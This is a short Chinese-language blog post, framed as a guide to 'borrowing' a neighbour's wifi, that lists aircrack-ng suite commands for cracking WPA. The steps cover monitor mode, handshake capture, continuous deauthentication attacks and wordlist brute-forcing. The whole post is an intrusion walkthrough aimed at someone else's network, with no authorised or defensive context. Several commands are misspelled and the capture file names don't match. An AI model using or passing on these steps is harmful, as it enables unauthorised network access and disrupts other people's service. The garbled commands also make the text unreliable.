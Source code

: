 ```yaml
---
layout:     post
title:      借用隔壁老王wifi攻略
category:   life
description: 借用隔壁老王wifi攻略
---
```

这篇文章如题，详细的内容不描述。

System : Kali Linux
Tool airmon-ng , 可以探针wifi

1. 检测wifi 的存在
<pre class="prettyprint">
iwcofing
</pre>

2. Check kill
<pre class="prettyprint">
airman-ng check kill
</pre>

3. 查看无线网卡
<pre class="prettyprint">
airmon -ng
</pre>

4. 开启无线网卡 
<pre class="prettyprint">
airmon -ng  start wlan0mon
</pre>

5. 查找无线网络
<pre class="prettyprint">
airodump-ng wlan0mon
</pre>

6. 网络抓包
<pre class="prettyprint">
airodump-ng -w vutfile -c 1 —bssid MacAddress wlan0mon
</pre>

7. ARP 发包
<pre class="prettyprint">
aireplay-ng -0 0 -a MacAddress wlan0mon
</pre>

8. 暴力破解
<pre class="prettyprint">
aircrack-ng outfile1.cap -w /your_world_list_path
</pre>